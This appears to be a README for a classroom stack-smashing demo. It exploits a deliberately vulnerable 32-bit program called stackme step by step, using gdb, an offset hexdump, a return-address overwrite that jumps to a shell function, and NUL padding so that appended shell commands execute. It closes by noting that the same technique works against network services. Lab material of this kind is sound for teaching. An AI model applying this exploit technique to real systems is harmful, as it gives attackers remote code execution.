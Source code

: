 # Stack Smashing Demo

Tested on Ubuntu 16.04 LTS

## Install toolchain for compiling for 32-bit

Since we are smashing the stack like it is 1995 anyway.

```
sudo apt-get install libc6-dev-i386
```

## Enable core dumps

First change the core file block-size limit from its default of 0

```
$ ulimit -c unlimited
```

Then change the `core_pattern` to something sensible. The following
always puts the core dump in the file 'core' but one can use e.g.
"core.%P" instead to append the process id to generate pseudo-unique
file names.

Note the following has to be run as root.

```
$ echo "core" > /proc/sys/kernel/core_pattern
```


## Crash the program, get control of EIP (program counter)

Here we use any long input. By convention we use a big string of AAAAs

````
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````

````
$ ./stackme < input.AAAA
````

````
$ gdb ./stackme core
... gdb output follows ...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
````

Note that the pc is at 0x41414141 ('AAAA') meaning that our input has eneded
up in the pc, so we have control over it.

## Using gdb to understand what is going on

To see how that happens, use gdb to set a breakpoint at the point at which
`copy_name` returns.

Use `disassemble copy_name` to find the address of the `ret` instruction:

```
(gdb) disassemble copy_name
...
0x08048581 <+50>:	ret
(gdb) b *0x08048581
```

When the breakpointis hit,  then confirm the
stack contents using the `x` instruction, at which point it looks like
this:
```
(gdb) x/4xw $esp
0xffffceec: 0x41414141	0x41414141	0x0000000a	0xf7fb45a0
``

Note `x/4xw` means print 4 words at the memory addressed by the stack
pointer. In any case, note that the stack pointer (i.e. saved return
address) is now 0x41414141.

You can examine the contents of the registers using `info registers` in
gdb.

## gef

Note that the `gef` tool gives very useful info when using gdb to examine
the execution of binaries and has a number of useful tools for exploit
development. See https://github.com/hugsy/gef

## Find the input that ends up being in the pc

The stack buffer is 32 bytes long. The return address turns out to live
at the fourth word after that on my 16.04 VM

This requires modifying some of the AAAAs to e.g. BBBB, CCCC, DDDD and
seeing which one ends up being in the PC

```
$ ./stackme < input.find_offset
```

```
$ gdb ./stackme core
...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x45454545 in ?? ()
```

## Exploit Step 1

In this trivial case, we write the pc so that the program executes
the 'some_function' function which, conveniently, gives us a shell.

gdb can identify the address of 'some_function' wince the program is
compiled -no-pie and so each function has a fixed global address

```
$ gdb ./stackme
...
(gdb) print some_function
$1 = {void ()} 0x804852b <some_function>
```

## Put that address into the input at the right offset

For this I use the 'hexedit' program to edit the input file

Remember it has to go in reverse order because x86 is little endian
So the input to get the program to jump to some_function looks like this
(the following is a hexdump)

```
00000000   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000010   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000020   42 42 42 42  43 43 43 43  44 44 44 44  2B 85 04 08  BBBBCCCCDDDD+...
```

This input is in the file `input.jump_to_func`. When we run the program
with this input note that it doesn't crash anymore and it also doesn't
print the final "Goodbye!" message. This means that the jump to
`some_function` has worked.

```
$ ./stackme < input.jump_to_func
Welcome to level 0

Please enter your name:

Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD+�FFFF
!
```

## Exploit Step 2

Now we need to make our exploit do something. The reason that, when
the input above causes the shell to be invoked, the program does nothing
is because the shell has no input to read. We need to give it some input.
It gets its input from stdin, i.e. from the input file we are iteratively
writing. So our commands to the shell have to go into that input.

(Note: these commands are *not* what is meant by the term "shellcode".
Shellcode is binary code that causes the program to execute a shell. Our
program already has a function for doing that, so we don't need to write
any shellcode. What we are writing here are textual commands that will be
read by the shell once it runs that instructs the shell to do something
on our behalf.)

It turns out that when the first data is read from stdin, internally
the kernel tries to read 4096 bytes of input. Then after the `execve`,
when the shell is running, the shell tries to read more 
input from stdin. Therefore, to reliably get the shell to read our commands,
we need to put them in the input file after the first 4096 bytes of input.

You can confirm this by running `strace ./stackme < input.jump_to_func`
and looking through the `strace` output of all the system calls. Look
especially for calls of the form `read(0,...)` which are reads to stdin,
and `execve` which are executions of new binaries.

```
$ strace ./stackme  < input.jump_to_func  2>&1 | grep 'read(0\|execve'
execve("./stackme", ["./stackme"], [/* 67 vars */]) = 0
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 53
execve("/bin/sh", NULL, NULL)           = 0
read(0, "", 8192)                       = 0
```

We can get our shell commands into the input therefore by padding the
input with 4096 ASCII NUL charcters (byte 0x0 -- i.e. 4096 zero bytes).
These will be ignored by the shell anyway if it reads any. Our commands
can then come after that.

Make a file `zeros` with 4096 zero bytes in it:
```
$ dd if=/dev/zero of=zeros bs=4096 count=1
```

Make a file `shell_commands` with your shell commands in it.

Then stich these together with the input that jumps to `some_function`
and put the results into the file `input.exploit`:

```
$ cat input.jump_to_func zeros shell_command > input.exploit
```

```
$ ./stackme < input.exploit
```

Your shell commands should then be executed.

Of course you could have executed them yourself. But suppose
`stackme` was running over the network and you could give it input remotely.
You would now have a working shell on the remote computer.









